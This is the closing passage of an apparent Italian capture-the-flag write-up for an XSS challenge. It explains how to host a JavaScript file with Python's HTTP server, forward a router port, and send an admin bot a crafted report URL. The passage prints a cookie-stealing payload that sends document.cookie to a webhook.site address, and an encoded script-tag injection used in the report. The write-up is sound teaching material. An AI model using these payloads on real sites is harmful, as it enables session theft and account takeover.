È probabile che a voi apparirà un IP che inizia per `192.`, qui ho fatto la prova sulla [MAN](https://www.cloudflare.com/it-it/learning/network-layer/what-is-a-metropolitan-area-network/) della mia università.

Dopodichè, per esporre il file contenente il payload alla rete locale, si può sfruttare il comando di Python `python3 -m http.server [PORT]`. In questo modo, viene uppato un semplice server HTTP che esporrà tutti i file presenti nella cartella e relative sottocartelle nella quale è stato lanciato il comando, il che significa che all'URL `http://[IP]:[PORT]/x.js`, se tutto è stato eseguito correttamente, si dovrebbe trovare il payload.



Aprendolo si dovrebbe poter vedere il payload, che però non sta venendo eseguito. Do not be afraid, quando questo verrà incluso nel tag script, verrà eseguito come necessario.

Come tutti i bravi bambini sanno, è però il router a comunicare col fantastico mondo dell'internet, e non direttamente il nostro dispositivo, che si limita a ricevere ed inviare informazioni tramite il router.

Per scoprire qual è il proprio IP secondo il mondo esterno, basta usare un servizio online come [whatismyip.com](https://www.whatismyip.com/). A questo punto abbiamo quasi tutto: si sa qual è l'indirizzo IP sul quale si troverà il file da includere nel tag script passato al bot (ovvero l'IP che si è appena trovato), e si sa qual è la porta del nostro dispositivo sulla quale i nostri file sono esposti (d'altronde, l'abbiamo scelta noi).

Manca però un passaggio: il router è raggiungibile dal mondo esterno, ma il server hostato sul dispositivo è raggiungibile solo nella rete locale. In qualche modo c'è da dire al router che quando viene ricevuta una richiesta su una certa porta, quella richiesta deve essere gestita dal server Python.

Il [port forwarding](https://en.wikipedia.org/wiki/Port_forwarding) permette di fare questo. Il procedimento per attivarlo cambia molto a seconda del fabbricatore del router.


Mama mia Luigi!!!!! XDDDDDDDDDDDDDDDDDDDDD

Come protocollo è importante selezionare TCP/UDP o simili se disponibili, altrimenti sarà meglio creare una port forwarding table per ogni protocollo.

La porta WAN è la porta che sarà raggiungibile dall'esterno, mentre la porta LAN è la porta che riceverà i [pacchetti](https://en.wikipedia.org/wiki/Network_packet) dall'esterno. Per capirci, quella che è stata scelta quando è stato uppato il server HTTP in Python. Per evitare errori, consiglierei di usare la stessa porta LAN e WAN (interna e esterna) quando possibile.

L'IP destinazione è l'IP locale del dispositivo utilizzato, ovvero quello che io ho ricavato con `ifconfig`, `ipconfig` in Windows.

In questo modo, quando il router riceverà una richiesta sulla porta WAN selezionata, il pacchetto verrà reindirizzato all'IP locale e la porta che è stata inserita nella tabella di port forwarding. 

Per provare che tutto sia stato fatto correttamente, basta visitare `[IP pubblico router]:[porta WAN]` da un dispositivo qualsiasi, ancora meglio se non collegato alla stessa rete locale del server sul quale si trova l'exploit (ad esempio un telefono con la connessione dati).

### Final payload
Let's do this.

Ricapitolando: 

- Il payload finalizzato per includere il codice JavaScript remoto è `<script src="//[IP]:[PORT]/x.js"></script>`.
- Il codice presente su x.js è `window.location = "https://webhook.site/[REDACTED]?c=" + document.cookie;`.
- Non rimane altro che mandare al bot un report di questo tipo:



`id=1/../../search%3flol%3d"/admin"%26q%3d<script%2bsrc%253d"http%253a//10.10.201.233%253a1337/x.js"></script>&message=/admin`, che si URL-decoda in `id=1/../../search?lol="/admin"&q=<script src="http://10.10.201.233:1337/x.js"></script>&message=/admin`

Chiunque sia riuscito nell'impresa di arrivare a leggere fino a qui, grazie di cuore ❤️

Per qualsiasi feedback, mi potete contattare su Discord: `titto_caru`